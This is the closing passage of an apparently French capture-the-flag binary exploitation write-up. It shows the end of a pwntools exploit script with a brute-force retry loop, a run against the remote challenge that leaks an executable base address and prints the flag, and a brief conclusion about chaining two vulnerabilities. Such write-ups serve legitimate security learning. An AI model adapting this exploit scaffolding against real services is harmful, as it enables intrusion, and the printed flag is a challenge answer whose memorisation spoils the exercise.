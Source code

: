 ```py
    input("end")
    exit()

launch()
exploit()
exit()

# if bruteforce is required
while True:
    count = 0
    tries += 1
    tries_prog.status(str(tries))

    launch()
    try:
        exploit()
    except EOFError:
        pass

    with context.local(log_level=logging.ERROR):
        io.close()
    # sleep(0.05)

```

```sh
$ python3 exploit.py REMOTE

[+] exe: 0x0000556a1d8d1000
[*] Switching to interactive mode
Au revoir!
NBCTF{L3ak1ng_1s_n0t_d1ff1c1l7?}
[*] Got EOF while reading in interactive
...
```

# Conclusion

J'ai trouvé le challenge intéressant par rapport au fait qu'il faut utiliser une vulnérabilité pour en provoquer une autre plus puissante.